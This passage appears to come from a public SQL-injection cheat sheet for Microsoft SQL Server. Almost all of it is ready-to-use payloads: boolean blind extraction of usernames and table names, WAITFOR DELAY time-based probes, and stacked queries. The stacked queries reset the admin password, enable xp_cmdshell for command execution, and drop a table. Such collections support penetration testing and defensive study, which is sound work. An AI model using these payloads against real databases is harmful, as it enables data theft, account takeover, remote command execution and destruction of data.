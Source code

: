 | Function    | Example                                         |
| ----------- | ----------------------------------------------- |
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`        |

Examples:

```sql
AND ASCII(SUBSTRING(SELECT TOP 1 username FROM tblusers),1,1)=97
AND UNICODE(SUBSTRING((SELECT 'A'),1,1))>64-- 
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'
AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)>90
```


## MSSQL Time Based

In a time-based blind SQL injection attack, an attacker injects a payload that uses `WAITFOR DELAY` to make the database pause for a certain period. The attacker then observes the response time to infer whether the injected payload executed successfully or not.

```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--
```

```sql
IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';
```


## MSSQL Stacked Query

* Stacked query without any statement terminator
    ```sql
    -- multiple SELECT statements
    SELECT 'A'SELECT 'B'SELECT 'C'

    -- updating password with a stacked query
    SELECT id, username, password FROM users WHERE username = 'admin'exec('update[users]set[password]=''a''')--

    -- using the stacked query to enable xp_cmdshell
    -- you won't have the output of the query, redirect it to a file 
    SELECT id, username, password FROM users WHERE username = 'admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
    ```

* Use a semi-colon "`;`" to add another query
    ```sql
    ProductID=1; DROP members--
    ```
